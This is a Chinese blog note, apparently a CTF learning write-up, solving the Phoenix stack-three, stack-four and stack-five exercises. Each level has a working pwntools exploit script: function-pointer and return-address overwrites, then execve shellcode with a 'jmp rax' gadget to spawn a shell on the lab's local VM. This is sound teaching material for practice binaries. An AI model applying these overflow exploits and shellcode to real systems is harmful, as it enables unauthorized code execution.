 ```yaml
---
title: "[pwn笔记2]stack-three, stack-four, stack-five(Phoenix)"
urlname: "[pwn笔记2]stack-three, stack-four, stack-five(Phoenix)"
date: March 21, 2023 2:29 PM
tags: [pwn, stack]
---
```

最近又是数模又是开学的，很难受，还是看看远方的~~水~~入门题吧。没有动态基址，还是比较简单的。

（写这段的时候还没想到接下来还有概率论考试，还打了场ctf校赛，所以。。。）

## **stack-three**

覆盖一个即将被调用的函数指针的数据，跟前面差不多。

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p64(0x40069d)
sh = shell.run(b"/opt/phoenix/amd64/stack-three")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))

```

## **stack-four**

覆盖栈上的返回地址。

![https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png](%5Bpwn%E7%AC%94%E8%AE%B02%5Dstack-three%2C%20stack-four%2C%20stack-five%28Phoeni%207b5b662947354bf68eff78239c6d2262/YB5ux4CUSAeowPv.png)

`0x648-0x5f0=88`

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 88 + p64(0x40061d)
sh = shell.run(b"/opt/phoenix/amd64/stack-four")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))
```

## **stack-five**

需要拿到shell。由于栈是可执行的，可以利用gets来把shellcode读进来，覆盖返回地址来执行shellcode。

这个过程看起来非常完美，可是不知道为什么返回到栈上执行两步就会段错误。关掉了aslr，尝试了附加调试和取消gdb环境变量，以消除栈地址的变化，都没有进展。

后来看到了另一个方法：

![Untitled](%5Bpwn%E7%AC%94%E8%AE%B02%5Dstack-three%2C%20stack-four%2C%20stack-five%28Phoeni%207b5b662947354bf68eff78239c6d2262/Untitled.png)

调用gets之前，s被放入了rax中。所以直接把shellcode放到最前面就会被rax指向。

我们可以用rop，找到一段`jmp rax`，返回到那里，然后下一步就会跳到shellcode了。

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

total = 136
sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
jmp_rax = p64(0x400481)
s = sc+b"a"*(total-len(sc))+jmp_rax

sh = shell.run(b"/opt/phoenix/amd64/stack-five")
sh.recvlines(1)
sh.sendline(s)
sh.interactive()
```

还有一件事，gef可以用以下命令调整context里stack显示的行数

```
gef config context.nb_lines_stack 30
```

这样就不用在虚拟机里再装个peda了（这两个共存很卡）。
